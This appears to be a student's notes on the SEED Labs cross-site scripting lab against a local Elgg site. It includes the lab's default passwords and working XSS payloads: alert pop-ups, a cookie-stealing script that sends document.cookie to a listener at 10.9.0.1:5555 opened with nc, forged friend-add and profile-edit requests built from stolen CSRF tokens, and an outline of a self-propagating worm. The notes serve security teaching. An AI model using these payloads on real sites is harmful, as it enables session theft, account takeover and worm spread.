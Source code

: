 # Lab 6 $-$ Cross-Site Scripting (XSS) Attack Lab on Elgg WebApp

---

## General Notes
### edit hosts
| .        | .                   |
| -------- | ------------------- |
| 10.9.0.5 | www.seed-server.com |
| 10.9.0.5 | www.example32a.com  |
| 10.9.0.5 | www.example32b.com  |
| 10.9.0.5 | www.example32c.com  |
| 10.9.0.5 | www.example60.com   |
| 10.9.0.5 | www.example70.com   |

- had a hard time making it work :(

### User in db
| UserName | Password    |
| -------- | ----------- |
| admin    | seedelgg    |
| alice    | seedalice   |
| boby     | seedboby    |
| charlie  | seedcharlie |
| samy     | seedsamy    |

---

# Task 1 $-$ Posting a Malicious Message to Display an Alert Window
- It's sufficient to embed an inline script with an alert in the brief description of the profile, so that whenever someone sees us will get the alert
  ```js
  // in the brief description
  hello <script>alert('ciao')</script>
  ```
---  
# Task 2 $-$ Posting a Malicious Message to Display Cookies
- just do it:
  `<script>alert(document.cookie);</script>`
---
# Task 3 $-$ Stealing Cookies from the Victim’s Machine
- make the script send the cookie to malicious server:
  ```javascript
  <script>
    document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >'); 
  </script>
  ```
- and then listen there: `nc -lknv 5555`
---
# Task 4 $-$ Becoming the Victim’s Friend
- figure out how a legitimate request works inspecting network
- craft malicious request:
  ```javascript
  <script type="text/javascript"> window.onload = function () {
  var Ajax=null;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // (1)
  var token="&__elgg_token="+elgg.security.token.__elgg_token; // (2) //Construct the HTTP request to add Samy as a friend.
  var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token; 
  Ajax=new XMLHttpRequest(); Ajax.open("GET", sendurl, true); Ajax.send(); //Create and send Ajax request to add friend
  }
  </script>
  ```
- once the victim will load the page it'll send the authenticated request to add user 59 as friend
---
# Task 5 $-$ Modifying the Victim’s Profile
- inspect legitimate request to edit profile and craft malicious one
  ```javascript
  <script type="text/javascript"> window.onload = function() {
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts //and Security Token __elgg_token
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  2
  //Construct the content of your url.
  var new_description = "Hello World!";
  var content=token+ts+guid+userName+"&description="+new_description; var samyGuid="59";
  var sendurl="http://www.seed-server.com/action/profile/edit";
  if(elgg.session.user.guid != samyGuid) { // avoid editing samy's about section (the attacker)
    //Create and send Ajax request to modify profile var Ajax=null;
    Ajax = new XMLHttpRequest();
    Ajax.open("POST", sendurl, true);
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send(content); }
  }
  </script>
  ```
---
# Task 6 $-$ Writing a Self-Propagating XSS Worm
- basically make it copy itslef via dom API is the best approach (see [samy-worm](../lab6_XSS/solutions/samy-worm.html))
- also a link approach is valid, host the script somewhere, embed it with the script tag fetching the remote script and make the worm replciate the embedder script tag in the other victims
---
